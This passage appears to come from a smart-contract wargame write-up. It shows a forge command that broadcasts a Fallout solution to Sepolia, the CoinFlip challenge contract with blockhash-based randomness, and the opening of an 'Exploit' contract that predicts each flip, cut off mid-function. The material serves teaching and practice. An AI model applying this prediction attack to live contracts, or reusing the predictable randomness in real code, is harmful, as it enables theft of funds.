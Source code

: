 ```bash
forge script script/FalloutSolution.s.sol --rpc-url $SEPOLIA_URL --broadcast
```

---

## CoinFlip

### Challenge Code

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

Because `blockhash(block.number - 1)` is deterministic, we can calculate the same value off-chain or in another contract, guaranteeing correct guesses.

### Script

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/CoinFlip.sol";

contract Exploit {
    uint256 constant FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip public coinFlipInstance;

    constructor(CoinFlip _coinFlipInstance) {
        coinFlipInstance = _coinFlipInstance;
    }

    function attack() public {
```